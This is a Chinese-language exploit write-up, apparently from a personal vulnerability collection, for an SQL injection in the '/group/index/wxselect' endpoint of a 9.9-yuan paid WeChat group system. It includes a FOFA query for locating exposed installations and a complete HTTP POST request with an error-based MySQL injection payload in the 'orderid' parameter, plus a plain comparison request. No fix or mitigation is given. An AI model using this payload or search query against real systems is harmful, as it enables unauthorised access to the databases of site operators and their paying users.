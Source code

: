 # 九块九付费进群系统wxselect存在SQL注入漏洞

# 一、漏洞简介
<font style="color:rgb(47, 48, 52);">九块九付费进群系统是一种新的社群管理方式，用户通过支付9.9元人民币即可加入特定的微信群，享受群内提供的服务或资源。这种模式通常用于知识分享、资源下载、专业交流等社群，通过设置门槛来筛选成员，提高群组的专业性和互动质量。</font>

# 二、影响版本
+ 九块九付费进群系统

# 三、资产测绘
+ fofa`body="/website/index/login.html"`
+ 特征

![1727023333396-3a7f6804-9a8f-4e9c-bc92-025420191364.png](./img/dKPKVxkRHevpbLyx/1727023333396-3a7f6804-9a8f-4e9c-bc92-025420191364-061163.png)

# 四、漏洞复现
```go
POST /group/index/wxselect HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Content-Type: application/x-www-form-urlencoded
 
orderid=') AND GTID_SUBSET(CONCAT((MID((IFNULL(CAST(VERSION() AS NCHAR),0x7e)),1,190))),5417)-- ylIU
```

![1727023353581-462c7f1d-7f5f-4154-995c-eb4145dc950c.png](./img/dKPKVxkRHevpbLyx/1727023353581-462c7f1d-7f5f-4154-995c-eb4145dc950c-570829.png)

```go
POST /group/index/wxselect HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Content-Type: application/x-www-form-urlencoded
 
orderid=1
```



> 更新: 2024-10-22 09:36:10  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/bdvfpxsyrd03yo6q>